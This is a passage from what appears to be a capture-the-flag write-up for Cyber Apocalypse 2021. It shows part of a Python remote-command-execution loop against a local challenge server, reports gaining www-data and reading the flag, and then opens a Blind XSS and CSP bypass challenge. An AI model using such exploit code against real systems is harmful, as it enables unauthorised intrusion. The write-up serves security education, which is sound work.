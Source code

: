 Assemble the final script by importing requests, setting the target url, the target endpoint, and putting the `execute_command` function into a loop:

```python
import requests

target_url = 'http://localhost:1337'
target_endpoint = '/send.php'

def main():
    print('[!] EXTORTION ZERO DAY LEET RCE:')
    while True:
        command = input('> ')
        print(execute_command(command))
```

We run the exploit and get the magical `whoami` - `www-data`. Simply browse the directory and read the flag:

<img src="/assets/images/posts/cyberApocalypse2021/extr2.png" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>

## Blind XSS + CSP Bypass (The Galactic Times)

The Galactic Times is a Node JS web application that hosts a galactic newspaper with spicy alien memes. When we deploy the application locally, we can explore the articles that are all located on the home page and we can also traverse to `/feedback`, which lets us submit comments to the website owners about the current newspaper edition.

<img src="/assets/images/posts/cyberApocalypse2021/gt1.png" style="margin-left: auto; margin-right: auto; margin-bottom: 0; display: block;"/>
